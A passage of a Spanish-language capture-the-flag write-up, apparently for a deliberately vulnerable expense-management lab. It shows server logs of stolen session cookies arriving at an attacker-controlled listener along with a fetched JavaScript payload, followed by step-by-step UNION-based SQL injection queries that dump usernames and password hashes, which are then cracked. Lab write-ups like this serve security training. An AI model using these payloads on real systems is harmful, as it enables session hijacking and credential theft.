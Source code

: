 ~~~bash
192.168.17.146 - - [13/Mar/2024 02:10:23] "GET /?cookie=PHPSESSID=88f09hs9pqgt1i9qhk00mijds6 HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:24] "GET /rubberCookie.js HTTP/1.1" 200 -
192.168.17.146 - - [13/Mar/2024 02:10:24] "GET /?cookie=PHPSESSID=kust032h08ddllflibc4t817m4 HTTP/1.1" 200 -
~~~

- En mi caso, la correcta fue `kust032h08ddllflibc4t817m4`.
- Y finalmente podemos validar la transacción:

![Pasted image 20240313001456](https://github.com/JoseVazquez101/Writteups/assets/111292579/da08a0ff-bc14-452c-8bb4-3b673c47ea7e)

- Ahora bien, hay un rol más y es el de `Financial Aproover`, este lo tiene un usuario que aparece en el chat llamado `Paul	Baudouin (pbaudouin)`.
- Aquí intenté extraer la cookie de este usuario sin éxito alguno.
- Me dí cuenta de que la url `http://192.168.17.146/site.php?id=2` es vulnerable a inyección SQL, así que tal vez podemos dumpear esta manualmente.
- Somos capaces de listar la base de datos con un `union select 1,2,3,database()`:

![Pasted image 20240313003006](https://github.com/JoseVazquez101/Writteups/assets/111292579/8470b568-aa10-43ec-acb1-f218cd9e3b34)

- De igual forma, podemos enumerar las tablas:

~~~mysql
union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = 'myexpense'
~~~

![Pasted image 20240313003312](https://github.com/JoseVazquez101/Writteups/assets/111292579/b0cadf11-7780-4db4-a9ad-db71b313d2bb)

- Enumeramos columnas:

~~~mysql
- union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema = 'myexpense' and table_name = 'user'
~~~

![Pasted image 20240313003524](https://github.com/JoseVazquez101/Writteups/assets/111292579/dcc87023-4bab-4fbf-9a37-8cddc3116f3f)

- Y finalmente, usuarios y contraseñas:

~~~mysql
union select 1,2,3,group_concat(username,'%3A',password) from user where username = 'pbaudouin'
~~~

![Pasted image 20240313003914](https://github.com/JoseVazquez101/Writteups/assets/111292579/86eec570-72e2-42d6-9345-df078f74d2a8)

- Tenemos credenciales `pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a`.
- Usé [crackstation](https://crackstation.net/) y obtuve el resultado del hash (``HackMe``).
 
- Y así, finalmente podemos cobrarnos lo que nos debían:

![Pasted image 20240313004617](https://github.com/JoseVazquez101/Writteups/assets/111292579/1c02b7ed-5cb1-4e4a-aba1-7972d1dd62d1)

- Si nos logueamos de nuevo como `slamotte` podremos ver un mensaje con una Flag:
